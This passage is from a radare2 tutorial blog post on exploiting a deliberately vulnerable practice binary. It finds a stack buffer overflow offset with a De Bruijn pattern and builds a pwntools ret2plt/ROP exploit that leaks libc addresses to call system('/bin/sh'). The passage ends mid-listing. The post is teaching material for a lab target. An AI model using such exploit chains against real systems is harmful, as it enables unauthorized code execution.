


<h2 style="text-align: left;">
  Prologue
</h2>

## helllo
asf
### world
fas

Welcome back to the second part of our journey into the guts of radare2! In this part we&#8217;ll cover more of the features of radare2, this time with the focus on binary exploitation.

A lot of you waited for the second part, so here it is! Hope to publish the next part faster, much faster. If you didn&#8217;t read the **[first part][1]** of the series I highly recommend you to do so. It describes the basics of radare2 and explains many of the commands that I&#8217;ll use here.

In this part of the series we&#8217;ll focus on exploiting a simple binary. radare2 has many features which will help us in exploitation, such as mitigation detection, ROP gadget searching, random patterns generation, register telescoping and more. You can find a Reference Sheet at the end of this post. Today I&#8217;ll show you some of these great features and together we&#8217;ll use radare2 to bypass [`nx`][2] protected binary on an `<code>`</code>[ASLR][3] enabled system. I assume that you are already familiar with the following prerequisites:

  * <span style="font-size: 16px;">Assembly code</span>
  * Exploit mitigations (NX, ASLR)
  * [Stack structure][4]
  * [Buffer Overflow][5]
  * [Return Oriented Programming][6]
  * [x86 Calling Conventions][7]

It&#8217;s really important to be familiar with these topics because I won&#8217;t get deep into them, or even won&#8217;t briefly explain some of them.

## 

## Updating radare2

First of all, let&#8217;s update radare2 to its newest git version:

```sh
$ git clone https://github.com/radare/radare2.git # clone radare2 if you didn't do it yet for some reason.
$ cd radare2
$ ./sys/install.sh
```


We have a long journey ahead so while we&#8217;re waiting for the update to finish, let&#8217;s get some motivation boost &#8212; cute cats video!

<p style="text-align: center;">
</p>

## Getting familiar with our binary

You can download the binary from [here][9], and the source from [here][10].  
If you want to compile the source by yourself, use the following command:

```default
$ gcc -m32  -fno-stack-protector -no-pie megabeets_0x2.c -o megabeets_0x2
```


Our binary this time is quite similar to the one from the previous post with a few slight changes to the `main()` function:

  * Compiled without `-z execstac` to enable `NX bit`
  * Receives user input with `scanf` and not from program&#8217;s arguments
  * Uses mostly `puts` to print to screen
  * Little changes to the program&#8217;s output

This was the previous `main()`:

```c
int main(int argc, char *argv[])
{
    printf("\n  .:: Megabeets ::.\n");
    printf("Think you can make it?\n");
    if (argc >= 2 && beet(argv[1]))
    {
        printf("Success!\n\n");
    }
    else
        printf("Nop, Wrong argument.\n\n");

    return 0;
}
```


And now `main` looks like this:

```c
int main(int argc, char *argv[])
{
    char *input; 
    puts("\n  .:: Megabeets ::.\n");
    puts("Show me what you got:");
    
    scanf("%ms", &input);
    if (beet(input))
    {
        printf("Success!\n\n");
    }
    else
        puts("Nop, Wrong argument.\n\n");

    return 0;
}

```


The functionality of the binary is pretty simple and we went through it in the previous post &#8212; It asks for user input, performs `rot13` on the input and compares it with the result of `rot13` on the string &#8220;Megabeets&#8221;. Id est, the input should be &#8216;Zrtnorrgf&#8217;.

```myshell
$ ./megabeets_0x2 

  .:: Megabeets ::.

Show me what you got:
blablablabla
Nop, Wrong argument.

$ ./megabeets_0x2 

  .:: Megabeets ::.

Show me what you got:
Zrtnorrgf
Success!


```


It&#8217;s all well and good but today our post is not about cracking a simple Crackme but about exploiting it. Wooho! Let&#8217;s get to the work.

<blockquote class="twitter-tweet" data-lang="en">
  <p dir="ltr" lang="en">
    The second part of &#8220;A journey into <a href="https://twitter.com/hashtag/radare2?src=hash">#radare2</a>&#8221; is finally out &#8211; and this time: Exploitation! Check it out @ <a href="https://t.co/sKH1YhxJwK">https://t.co/sKH1YhxJwK</a><a href="https://twitter.com/radareorg">@radareorg</a>
  </p>
  
    — Itay Cohen (@megabeets_) <a href="https://twitter.com/megabeets_/status/904381915964346372">September 3, 2017</a>
</blockquote>


## Understanding the vulnerability

As with every exploitation challenge, it is always a good habit to check the binary for implemented security protections. We can do it with `rabin2` which I demonstrated in the last post or simply by executing `i` from inside radare&#8217;s shell. Because we haven&#8217;t opened the binary with radare yet, we&#8217;ll go for the `rabin2` method:

```batch
$ rabin2 -I megabeets_0x2

arch     x86
binsz    6072
bintype  elf
bits     32
canary   false
class    ELF32
crypto   false
endian   little
havecode true
intrp    /lib/ld-linux.so.2
lang     c
linenum  true
lsyms    true
machine  Intel 80386
maxopsz  16
minopsz  1
nx       true
os       linux
pcalign  0
pic      false
relocs   true
relro    partial
rpath    NONE
static   false
stripped false
subsys   linux
va       true

```


As you can see in the marked lines, the binary is `NX` protected which means that we won&#8217;t have an executable stack to rely on. Moreover, the file isn&#8217;t protected with [`canaries`][11] , [`pic`][12]  or [`relro`][13].

<!--more-->

Now it&#8217;s time to quickly go through the flow of the program, this time we&#8217;ll look at the disassembly (we won&#8217;t always have the source code). Open the program in debug mode using radare2:

<div style="overflow-x: auto; margin: 0 0 20px;">
  <table style="background-color: #4a3446; color: #fff; font-family: terminal, monaco, monospace; font-size: 10pt;">
    <tr style="height: 19.8594px;">
      <td style="height: 19.8594px;">
        $ <span style="color: #ffffff;">r2</span> <span style="color: #cc99ff;">-d</span> <span style="color: #00ccff;">megabeets_0x2</span><br /> Process with PID 20859 started&#8230;<br /> = attach 20859 20859<br /> bin.baddr 0x08048000<br /> Using 0x8048000<br /> Assuming filepath /home/beet/Desktop/Security/r2series/0x2/megabeets_0x2<br /> asm.bits 32&#8211; Your endian swaps<br /> <span style="color: #468ee6;">[0xf7782b30]> </span>aas
      </td>
    </tr>
  </table>
</div>

>   * `-d`  &#8211; Open in the debug mode
>   * `aas` &#8211; Analyze functions, symbols and more
> 
> **Note:** as I mentioned in the previous post, starting with `aaa` is not always the recommended approach since analysis is very complicated process. I wrote more about it in [this answer][14] &#8212; read it to better understand why.

Now continue the execution process until `main` is reached. We can easily do this by executing `dcu main`:

<div style="overflow-x: auto; margin: 0 0 20px;">
  <table style="background-color: #4a3446; color: #fff; font-family: terminal, monaco, monospace; font-size: 10pt;">
    <tr style="height: 19.8594px;">
      <td style="height: 19.8594px;">
        <span style="color: #468ee6;">[0xf7797b30]></span> dcu?<br /> |<span style="color: #458ce2;">Usage: dcu Continue until address</span><br /> | dcu<span style="color: #35d3c4;"> address</span>      <span style="color: #458ce2;">Continue until address</span><br /> | dcu<span style="color: #35d3c4;"> [..tail]</span>     <span style="color: #458ce2;">Continue until the range</span><br /> | dcu<span style="color: #35d3c4;"> [from] [to]</span>  <span style="color: #458ce2;">Continue until the range</span><br /> <span style="color: #468ee6;">[0xf7797b30]></span> dcu main<br /> Continue until 0x08048658 using 1 bpsize<br /> hit breakpoint at: 8048658
      </td>
    </tr>
  </table>
</div>

> `dcu` stands for **d**ebug **c**ontinue **u**ntil

Now let&#8217;s enter the Visual Graph Mode by pressing  `VV`. As explained in the first part, you can toggle views using `p` and `P`, move Left/Down/Up/Right using `h`/`j`/`k`/`l` respectively and jump to a function using `g` and the key shown next to the jump call (e.g `gd`).

Use `?` to list all the commands of Visual Graph mode and **make sure not to miss the `R` command 😉**



`main()` is the function where our program prompts us for input (via `scanf()` ) and then passes this input to `sym.beet` . By pressing `oc` we can jump to the function `beet()` which handles our input:



We can see that the user input `[arg_8h]` is copied to a buffer (`[local_88h]`) and then, just as we saw in the previous post, the string `Megabeets` is encrypted with `rot13` and the result is then compared with our input. We saw that before so I won&#8217;t explain it further.

Did you see something fishy? The size of our input is never checked and the input copied as-is to the buffer. That means that if we&#8217;ll enter an input that is bigger then the size of the buffer, we&#8217;ll cause a buffer overflow and smash the stack. _Ta-Dahm!_ We found our vulnerability.

## Crafting the exploit

Now that we have found the vulnerable function, we need to gently craft a payload to exploit it. Our goal is simply to get a shell on the system. First, we need to validate that there&#8217;s indeed a vulnerable function and then, we&#8217;ll find the offset at which our payload is overriding the stack.

[][17]

We&#8217;ll use a tool in radare&#8217;s framework called `ragg2`, which allows us to generate a cyclic pattern called [De Bruijn Sequence][18] and check the exact offset where our payload overrides the buffer.

```default
$ ragg2 -
<truncated>
 -P [size]       prepend debruijn pattern
<truncated>
 -r              show raw bytes instead of hexpairs
<truncated>

$ ragg2 -P 100 -r
AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQAARAASAATAAUAAVAAWAAXAAYAAZAAaAAbAAcAAdAAeAAfAAgAAh
```


We know that our binary is taking user input via `stdin`, instead of copy-pate our input to the shell, we&#8217;ll use one more tool from radare&#8217;s toolset called `rarun2.`

> `rarun2` is used as a launcher for running programs with different environments, arguments, permissions, directories and overrides the default file descriptors (e.g. stdin).
> 
> It is useful when you have to run a program using long arguments, pass a lot of data to `stdin` or things like that, which is usually the case for exploiting a binary.

We need to do the following three steps:

  * Write  De Bruijn pattern to a file with `ragg2`
  * Create `rarun2` profile file and set the output-file as `stdin`
  * Let `radare2` do its magic and find the offset

<div style="overflow-x: auto; margin: 0 0 20px;">
  <table style="background-color: #4a3446; color: #fff; font-family: terminal, monaco, monospace; font-size: 10pt;">
    <tr style="height: 19.8594px;">
      <td style="height: 19.8594px;">
        $ ragg2 <span style="color: #ff99cc;">-P</span> 200 <span style="color: #ff99cc;">-r</span> > <span style="color: #99ccff;">pattern.txt</span><br /> $ cat pattern.txt<br /> AAABAACAADAAEAAFAAGAAHAAI&#8230; <truncated> &#8230;7AA8AA9AA0ABBABCABDABEABFA<br /> <span style="color: #458ce2;"> </span><br /> $ vim <span style="color: #99ccff;">profile.rr2</span><br /> <span style="color: #458ce2;"> </span><br /> $ cat <span style="color: #99ccff;">profile.rr2</span><br /> #!/usr/bin/rarun2<br /> stdin=./pattern.txt<br /> <span style="color: #458ce2;"> </span><br /> $ r2 <span style="color: #ff99cc;">-r</span> profile.rr2 <span style="color: #ff99cc;">-d</span> <span style="color: #00ccff;">megabeets_0x2</span><br /> Process with PID 21663 started&#8230;<br /> = attach 21663 21663<br /> bin.baddr 0x08048000<br /> Using 0x8048000<br /> Assuming filepath /home/beet/Desktop/Security/r2series/0x2/megabeets_0x2<br /> asm.bits 32<br /> <span style="color: #458ce2;"> </span><br /> &#8212; Use rarun2 to launch your programs with a predefined environment.<br /> <span style="color: #458ce2;">[0xf77c2b30]></span> dc<br /> Selecting and continuing: 21663<br /> <span style="color: #458ce2;"> </span><br /> .:: Megabeets ::.<br /> <span style="color: #458ce2;"> </span><br /> Show me what you got?<br /> <span style="color: #f06767;">child stopped with signal 11</span><br /> <span style="color: #458ce2;"> </span><br /> <span style="color: #458ce2;">[0x41417641]></span>
      </td>
    </tr>
  </table>
</div>

<div style="overflow-x: auto; margin: 0 0 20px;">
    We executed our binary and passed the content of <em>pattern.txt</em> to <code>stdin</code> with <code>rarun2</code> and received <em>SIGSEV 11</em>.
  
  <blockquote>
    <p>
       A signal is an asynchronous notification sent to a process or to a specific thread within the same process in order to notify it of an event that occurred.
    </p>
    
    <p>
      The SIGSEGV (11) signal is sent to a process when it makes an invalid virtual memory reference, or segmentation fault, i.e. when it performs a <b><i>seg</i>mentation <i>v</i>iolation.</b>
    </p>
  </blockquote>
  
    Did you notice that now our prompt points to <code>0x41417641</code>? This is an invalid address which represents &#8216;AvAA&#8217; (asciim little-endian), a fragment from our pattern. radare allows us to find the offset of a given value in De Bruijn pattern.
</div>

<div style="overflow-x: auto; margin: 0 0 20px;">
  <table style="background-color: #4a3446; color: #fff; font-family: terminal, monaco, monospace; font-size: 10pt;">
    <tr style="height: 19.8594px;">
      <td style="height: 19.8594px;">
        <span style="color: #458ce2;">[0x41417641]></span> wop?<br /> |<span style="color: #458ce2;">Usage: wop[DO] len @ addr | value</span><br /> | wopD<span style="color: #ffff00;"> <span style="color: #35d3c4;">len [@ addr]</span></span>  <span style="color: #458ce2;">Write a De Bruijn Pattern of length &#8216;len&#8217; at address &#8216;addr&#8217;</span><br /> | wopO<span style="color: #ffff00;"> <span style="color: #35d3c4;">value</span></span>         <span style="color: #458ce2;">Finds the given value into a De Bruijn Pattern at current offset</span><br /> <span style="color: #458ce2;">[0x41417641]></span> wopO `dr eip`<br /> 140
      </td>
    </tr>
  </table>
</div>

Now that we know that the override of the return address occurs after 140 bytes, we can begin crafting our payload.

## Creating the exploit

As I wrote a couple times before, this post isn&#8217;t about teaching basics of exploitation, it aims to show how radare2 can be used for binary exploitation using variety of commands and tools in the framework. Thus, this time I won&#8217;t get deeper into each part of our exploit.

Our goal is to spawn a shell on the running system. There are many ways to go about it, especially in such a vulnerable binary as ours. In order to understand what we can do, we first need to understand what we can&#8217;t do. Our machine is protected with `ASLR` so we can&#8217;t predict the address where [_libc_][19] will be loaded in memory. Farewell [_ret2libc_][20]. In addition, our binary is protected with `NX`, that means that the stack is not executable so we can&#8217;t just put a _[shellcode][21]<span style="color: #ff0000;"> </span>_on the stack and jump to it.

Although these protections prevents us from using a few exploitation techniques, they are not immune and we can easily craft a payload to bypass them. To assemble our exploit we need to take a more careful look at the libraries and functions that the binary offers us.

Let&#8217;s open the binary in debug mode again and have a look at the libraries and the functions it uses. Starting with the libraries:

<div style="overflow-x: auto; margin: 0 0 20px;">
  <table style="background-color: #4a3446; color: #ffffff; font-family: terminal, monaco, monospace; font-size: 10pt; height: 118px;" width="933">
    <tr style="height: 19.8594px;">
      <td style="height: 19.8594px; width: 907.6px;">
        $ r2 <span style="color: #cc99ff;">-d</span> <span style="color: #00ccff;">megabeets_0x2</span><br /> Process with PID 23072 started&#8230;<br /> = attach 23072 23072<br /> bin.baddr 0x08048000<br /> Using 0x8048000<br /> Assuming filepath /home/beet/Desktop/Security/r2series/0x2/megabeets_0x2<br /> asm.bits 32<br /> &#8212; You haxor! Me jane?<br /> <span style="color: #468ee6;">[0xf7763b30]></span> il<br /> [Linked libraries]<br /> libc.so.61 library
      </td>
    </tr>
  </table>
</div>

`il` stands for **I**nformation **l**ibraries and shows us the libraries that our binary uses. Only one library in our case &#8212; our beloved _libc_.

Now let&#8217;s have a look at the imported functions by executing `ii` which stands for &#8212; you guessed right &#8212; **I**nformation **I**mports. We can also add `q` to our command to print a less verbose output:

<div style="overflow-x: auto; margin: 0 0 20px;">
  <table style="background-color: #4a3446; color: #fff; font-family: terminal, monaco, monospace; font-size: 10pt;">
    <tr style="height: 19.8594px;">
      <td style="height: 19.8594px;">
        <span style="color: #468ee6;">[0xf7763b30]></span> ii</p> 
        
        <p>
          [Imports]<br /> ordinal=001 plt=0x08048370 bind=GLOBAL type=FUNC name=strcmp<br /> ordinal=002 plt=0x08048380 bind=GLOBAL type=FUNC name=strcpy<br /> ordinal=003 plt=0x08048390 bind=GLOBAL type=FUNC name=puts<br /> ordinal=004 plt=0x00000000 bind=WEAK type=NOTYPE name=__gmon_start__<br /> ordinal=005 plt=0x080483a0 bind=GLOBAL type=FUNC name=__libc_start_main<br /> ordinal=006 plt=0x080483b0 bind=GLOBAL type=FUNC name=__isoc99_scanf6 imports
        </p>
        
        <p>
          <span style="color: #458ce2;">[0xf7763b30]></span> iiq<br /> strcmp<br /> strcpy<br /> puts<br /> __gmon_start__<br /> __libc_start_main<br /> __isoc99_scanf</td> </tr> </tbody> </table> </div> 
          
          <div style="overflow-x: auto; margin: 0 0 20px;">
            <p>
              Oh sweet! We have <code>puts</code> and <code>scanf</code>, we can take advantage of these two in order to create a clean exploit. Our exploit will take advantage of the fact that we can control the flow of the program (remember that <code>ret</code> tried to jump to an offset in our pattern?) and we&#8217;ll try to execute <code>system("/bin/sh")</code> to pop a shell.
            </p>
            
            <h3>
              The plan
            </h3>
            
            <ul>
              <li>
                Leak the real address of <code>puts</code>
              </li>
              <li>
                Calculate the base address of <em>libc</em>
              </li>
              <li>
                Calculate the address of <code>system</code>
              </li>
              <li>
                Find an address in <em>libc</em> that contains the string <code>/bin/sh</code>
              </li>
              <li>
                Call <code>system</code> with <code>/bin/sh</code> and spawn a shell
              </li>
            </ul>
            
            <h3>
              Leaking the address of <code>puts</code>
            </h3>
            
            <p>
              To leak the real address of puts we&#8217;ll use a technique called <code>ret2plt</code>. The <em>Procedure Linkage Table</em> is a memory structure that contains a code stub for external functions that their addresses are unknown at the time of linking. Whenever we see a <em>CALL </em>instruction to a function in the <em>.text</em> segment it doesn’t call the function directly. Instead, it calls the stub code at the <code>PLT</code>, say <code>func_name@plt</code>. The stub then jumps to the address listed for this function in the <em>Global Offset Table</em> (<code>GOT</code>). If it is the first <em>CALL</em> to this function, the <code>GOT</code> entry will point back to the <code>PLT</code> which in turn would call a dynamic linker that will resolve the real address of the desired function. The next time that <code>func_name@plt</code> is called, the stub directly obtains the function address from the <code>GOT</code>. To read more about the linking process, I highly recommend <a href="https://www.airs.com/blog/archives/38">this series of articles</a> about linkers by <em>Ian Lance Taylor</em>.
            </p>
            
            <p>
              In order to do this, we will find the address of <code>puts</code> in both the <code>PLT</code> and the <code>GOT</code> and then call <code>puts@plt</code> with <code>puts@got</code> as a parameter. We will chain these calls and send them to the program at the point where <code>scanf</code> is expecting our input. Then we&#8217;ll return to the entrypoint for the second stage of our exploit. What will happen is that <code>puts</code> will print the real address of itself &#8212; magic!
            </p>
          </div>
          
          <div style="overflow-x: auto; margin: 0 0 20px;">
            ```diff
+---------------------+
|       Stage 1       |
+---------------------+
| padding (140 bytes) |
| puts@plt            |
| entry_point         |
| puts@got            |
+---------------------+
```

            
            <p>
              For writing the exploit we will use <em><a href="https://github.com/Gallopsled/pwntools">pwnlib</a> </em>framework which is my favorite python framework for exploitation task. It is simplifying a lot of stuff and making our life easier. You can use every other method you prefer.
            </p>
            
            <p>
              To install <em>pwntools</em> use <code>pip</code>:
            </p>
            
            ```sh
$ pip install --upgrade pip
$ pip install --upgrade pwntools
```

            
            <p>
              You can read more about <em>pwntools</em> in the <a href="http://docs.pwntools.com/en/stable/index.html">official documentation</a>.
            </p>
            
            <p>
              Here&#8217;s our python skeleton for the first stage:
            </p>
            
            ```python
from pwn import *

# Addresses
puts_plt =
puts_got =
entry_point =

# context.log_level = "debug"

def main():
    
    # open process
    p = process("./megabeets_0x2")

    # Stage 1
    
    # Initial payload
    payload  =  "A"*140 # padding
    ropchain =  p32(puts_plt)
    ropchain += p32(entry_point)
    ropchain += p32(puts_got)

    payload = payload + ropchain

    p.clean()
    p.sendline(payload)

    # Take 4 bytes of the output
    leak = p.recv(4)
    leak = u32(leak)
    log.info("puts is at: 0x%x" % leak)
    p.clean()
  

if __name__ == "__main__":
    main()


```

            
            <p>
              We need to fill in the addresses of <code>puts@plt</code>, <code>puts@got</code>, and the entry point of the program. Let&#8217;s get back to radare2 and execute the following commands. The <code>#</code> character is used for commenting and the <code>~</code> character is radare&#8217;s internal <code>grep</code>.
            </p>
            
            <table style="background-color: #4a3446; color: #fff; font-family: terminal, monaco, monospace; font-size: 10pt;">
              <tr style="height: 19.8594px;">
                <td style="height: 19.8594px;">
                  <span style="color: #468ee6;">[0xf7763b30]></span> # the address of puts@plt:<br /> <span style="color: #468ee6;">[0xf7763b30]></span> ?v sym.imp.puts<br /> 0x08048390<br /> <span style="color: #468ee6;">[0xf7763b30]</span>> # the address of puts@got:<br /> <span style="color: #468ee6;">[0xf7763b30]></span> ?v reloc.puts<br /> 0x0804a014<br /> <span style="color: #468ee6;">[0xf7763b30]></span> # the address of program&#8217;s entry point (entry0):<br /> <span style="color: #468ee6;">[0xf7763b30]></span> ieq<br /> 0x080483d0
                </td>
              </tr>
            </table>
          </div>
          
          <div style="overflow-x: auto; margin: 0 0 20px;">
            <p>
              <code>sym.imp.puts</code> and <code>reloc.puts</code> are flags that radare is automatically detect. The command <code>ie</code> stands for <strong>I</strong>nformation <strong>E</strong>ntrypoint.
            </p>
            
            <p>
              Now we need to fill in the addresses that we&#8217;ve found:
            </p>
            
            ```python
...

# Addresses
puts_plt = 0x8048390
puts_got = 0x804a014
entry_point = 0x80483d0

...

```

          </div>
          
          <p>
            Let&#8217;s execute the script:
          </p>
          
          <div style="overflow-x: auto; margin: 0 0 20px;">
            <table style="background-color: #4a3446; color: #fff; font-family: terminal, monaco, monospace; font-size: 10pt;">
              <tr style="height: 19.8594px;">
                <td style="height: 19.8594px;">
                  $ python <span style="color: #33cccc;">exploit.py</span><br /> <span style="color: #00ccff;">[+]</span> Starting local process &#8216;./megabeets_0x2&#8217;: pid 23578<br /> <span style="color: #00ccff;">[*]</span> puts is at: 0xf75db710<br /> <span style="color: #00ccff;">[*]</span> Stopped process &#8216;./megabeets_0x2&#8217; (pid 23578)<br /> <span style="color: #cc99ff;">  </span><br /> $ python <span style="color: #33cccc;">exploit.py</span><br /> <span style="color: #00ccff;">[+]</span> Starting local process &#8216;./megabeets_0x2&#8217;: pid 23592<br /> <span style="color: #00ccff;">[*]</span> puts is at: 0xf7563710<br /> <span style="color: #00ccff;">[*]</span> Stopped process &#8216;./megabeets_0x2&#8217; (pid 23592)<br /> <span style="color: #cc99ff;">  </span><br /> $ python <span style="color: #33cccc;">exploit.py</span><br /> <span style="color: #00ccff;">[+]</span> Starting local process &#8216;./megabeets_0x2&#8217;: pid 23606<br /> <span style="color: #00ccff;">[*]</span> puts is at: 0xf75e3710<br /> <span style="color: #00ccff;">[*]</span> Stopped process &#8216;./megabeets_0x2&#8217; (pid 23606)
                </td>
              </tr>
            </table>
          </div>
          
          <p>
            I executed it 3 times to show you how the address of <code>puts</code> has changed in each run. Therefore we cannot predict its address beforehand. Now we need to find the offset of <code>puts</code> in <em>libc</em> and then calculate the base address of <em>libc</em>. After we have the base address we can calculate the real addresses of  <code>system</code>, <code>exit</code> and <code>"/bin/sh"</code> using their offsets.
          </p>
          
          <p>
            Our skeleton now should look like this:
          </p>
          
          ```python
from pwn import *

# Addresses
puts_plt = 0x8048390
puts_got = 0x804a014
entry_point = 0x80483d0

# Offsets
offset_puts = 
offset_system = 
offset_str_bin_sh = 
offset_exit = 

# context.log_level = "debug"

def main():
    
    # open process
    p = process("./megabeets_0x2")

    # Stage 1
    
    # Initial payload
    payload  =  "A"*140
    ropchain =  p32(puts_plt)
    ropchain += p32(entry_point)
    ropchain += p32(puts_got)

    payload = payload + ropchain

    p.clean()
    p.sendline(payload)

    # Take 4 bytes of the output
    leak = p.recv(4)
    leak = u32(leak)
    log.info("puts is at: 0x%x" % leak)
    
    p.clean()
    
    # Calculate libc base

    libc_base = leak - offset_puts
    log.info("libc base: 0x%x" % libc_base)

    # Stage 2
    
    # Calculate offsets
    system_addr = libc_base + offset_system
    binsh_addr = libc_base + offset_str_bin_sh
    exit_addr = libc_base  + offset_exit

    log.info("system: 0x%x" % system_addr)
    log.info("binsh: 0x%x" % binsh_addr)
    log.info("exit: 0x%x" % exit_addr)

if __name__ == "__main__":
    main()
```

          
          <h3>
            Calculating the real addresses
          </h3>
          
          <p>
            <em>Please notice that in this part of the article, my results would probably be different then yours. It is likely that we have different versions  of libc, thus the offsets won&#8217;t be the same.</em>
          </p>
          
          <p>
            First we need to find the offset of <code>puts</code> from the base address of libc. Again let&#8217;s open radare2 and continue executing until we reach the program&#8217;s entrypoint. We have to do this because radare2 is starting its debugging before <em>libc</em> is loaded. When we&#8217;ll reach the entrypoint, the library for sure would be loaded.
          </p>
          
          <p>
            Let&#8217;s use the <code>dmi</code> command and pass it <em>libc</em> and the desired function. I added some grep magic (<code>~</code>) to show only the relevant line.
          </p>
          
          <div style="overflow-x: auto; margin: 0 0 20px;">
            <table style="background-color: #4a3446; color: #fff; font-family: terminal, monaco, monospace; font-size: 10pt;">
              <tr style="height: 19.8594px;">
                <td style="height: 19.8594px;">
                  $ r2 <span style="color: #468ee6;">-d</span> <span style="color: #00ccff;">megabeets_0x2</span></p> 
                  
                  <p>
                    Process with PID 24124 started&#8230;<br /> = attach 24124 24124<br /> bin.baddr 0x08048000<br /> Using 0x8048000<br /> Assuming filepath /home/beet/Desktop/Security/r2series/0x2/megabeets_0x2<br /> asm.bits 32<br /> &#8212; A C program is like a fast dance on a newly waxed dance floor by people carrying razors &#8211; Waldi Ravens
                  </p>
                  
                  <p>
                    <span style="color: #468ee6;">[0xf771ab30]></span> dcu entry0<br /> Continue until 0x080483d0 using 1 bpsize<br /> hit breakpoint at: 80483d0
                  </p>
                  
                  <p>
                    <span style="color: #468ee6;">[0x080483d0]></span> dmi libc puts~ puts$<br /> vaddr=0xf758f710 paddr=0x00062710 ord=6490 fwd=NONE sz=474 bind=GLOBAL type=FUNC name=puts
                  </p>
                  
                  <p>
                    <span style="color: #468ee6;">[0x080483d0]></span> dmi libc system~ system$<br /> vaddr=0xf7569060 paddr=0x0003c060 ord=6717 fwd=NONE sz=55 bind=WEAK type=FUNC name=system
                  </p>
                  
                  <p>
                    <span style="color: #468ee6;">[0x080483d0]></span> dmi libc exit~ exit$<br /> vaddr=0xf755c180 paddr=0x0002f180 ord=5904 fwd=NONE sz=33 bind=LOCAL type=FUNC name=exit</td> </tr> </tbody> </table> </div> 
                    
                    <p>
                      <em><span style="color: #59a6d9;">Please note that the output format of  <code>dmi</code> was changed since the post been published. Your results might look a bit different.</span></em>
                    </p>
                    
                    <p>
                      All these <code>paddr=0x000xxxxx</code> are the offsets of the function from <em>libc</em> base. Now it&#8217;s time to find the reference of <code>"/bin/sh"</code> in the program. To do this we&#8217;ll use radare&#8217;s search features. By default, radare is searching in <code>dbg.map</code> which is the current memory map. We want to search in all memory maps so we need to config it:
                    </p>
                    
                    <div style="overflow-x: auto; margin: 0 0 20px;">
                      <table style="background-color: #4a3446; color: #fff; font-family: terminal, monaco, monospace; font-size: 10pt;">
                        <tr style="height: 19.8594px;">
                          <td style="height: 19.8594px;">
                            <span style="color: #468ee6;">[0x080483d0]></span> e search.in = dbg.maps
                          </td>
                        </tr>
                      </table>
                      
                      <p>
                        You can view more options if you&#8217;ll execute <code>e search.in=?</code> . To configure radare the visual way, use <code>Ve</code>.
                      </p>
                      
                      <p>
                        Searching with radare is done by the <code>/</code> command. Let&#8217;s see some search options that radare offers us:
                      </p>
                      
                      <div style="overflow-x: auto; margin: 0 0 20px;">
                        <table style="background-color: #4a3446; color: #fff; font-family: terminal, monaco, monospace; font-size: 10pt;">
                          <tr style="height: 19.8594px;">
                            <td style="height: 19.8594px;">
                              |<span style="color: #35d3c4;">Usage: /[amx/] [arg]Search stuff (see &#8216;e??search&#8217; for options)</span><br /> | /<span style="color: #458ce2;"> foo\x00</span>           <span style="color: #35d3c4;">search for string &#8216;foo\0&#8217;</span><br /> | /j<span style="color: #458ce2;"> foo\x00</span>          <span style="color: #35d3c4;">search for string &#8216;foo\0&#8217; (json output)</span><br /> | /!<span style="color: #458ce2;"> ff</span>               <span style="color: #35d3c4;">search for first occurrence not matching</span><br /> | /+<span style="color: #458ce2;"> /bin/sh</span>          <span style="color: #35d3c4;">construct the string with chunks</span><br /> | /!x<span style="color: #458ce2;"> 00</span>              <span style="color: #35d3c4;">inverse hexa search (find first byte != 0x00)</span><br /> | //                  <span style="color: #35d3c4;">repeat last search</span><br /> | /h<span style="color: #458ce2;">[t] [hash] [len]</span>  <span style="color: #35d3c4;">find block matching this hash. See /#?</span><br /> | /a<span style="color: #458ce2;"> jmp eax</span>          <span style="color: #35d3c4;">assemble opcode and search its bytes</span><br /> | /A<span style="color: #458ce2;"> jmp</span>              <span style="color: #35d3c4;">find analyzed instructions of this type (/A? for help)</span><br /> | /b                  <span style="color: #35d3c4;">search backwards</span><br /> | /B                  <span style="color: #35d3c4;">search recognized RBin headers</span><br /> | /c<span style="color: #458ce2;"> jmp [esp]</span>        <span style="color: #35d3c4;">search for asm code</span><br /> | /C<span style="color: #458ce2;">[ar]</span>              <span style="color: #35d3c4;">search for crypto materials</span><br /> | /d<span style="color: #458ce2;"> 101112</span>           <span style="color: #35d3c4;">search for a deltified sequence of bytes</span><br /> | /e<span style="color: #458ce2;"> /E.F/i</span>           <span style="color: #35d3c4;">match regular expression</span><br /> | /E<span style="color: #458ce2;"> esil-expr</span>        <span style="color: #35d3c4;">offset matching given esil expressions %%= here</span><br /> | /f<span style="color: #458ce2;"> file [off] [sz]</span>  <span style="color: #35d3c4;">search contents of file with offset and size</span><br /> | /i<span style="color: #458ce2;"> foo</span>              <span style="color: #35d3c4;">search for string &#8216;foo&#8217; ignoring case</span><br /> | /m<span style="color: #458ce2;"> magicfile</span>        <span style="color: #35d3c4;">search for matching magic file (use blocksize)</span><br /> | /o                  <span style="color: #35d3c4;">show offset of previous instruction</span><br /> | /p<span style="color: #458ce2;"> patternsize</span>      <span style="color: #35d3c4;">search for pattern of given size</span><br /> | /P<span style="color: #458ce2;"> patternsize</span>      <span style="color: #35d3c4;">search similar blocks</span><br /> | /r[e]<span style="color: #458ce2;"> sym.printf</span>    <span style="color: #35d3c4;">analyze opcode reference an offset (/re for esil)</span><br /> | /R<span style="color: #458ce2;"> [?] [grepopcode]</span> <span style="color: 